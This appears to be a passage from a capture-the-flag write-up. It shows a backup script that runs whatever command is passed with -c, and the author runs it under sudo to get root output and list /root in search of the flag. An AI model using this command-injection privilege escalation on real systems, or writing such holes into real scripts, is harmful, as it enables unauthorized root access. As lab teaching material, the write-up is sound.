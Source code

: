 ```sh
   c) command=${OPTARG};;
 esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

The above is the output of the backup.sh file. Upon examining it, we can see that there is an execution of a command that can be passed as an optional argument. So, with this, we can execute commands as sudo and bypass root privileges to get the root flag, which probably is in /root folder.

```sh
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh -c whoami
...
...

Backup finished
root
lex@ubuntu:/etc/mp3backups$ 
```

It printed root! So, we just get read the contents of the flag file by sending the required commands as above.

```sh
lex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh -c "ls /root"
...
...

Backup finished
root.txt
lex@ubuntu:/etc/mp3backups$ 
```
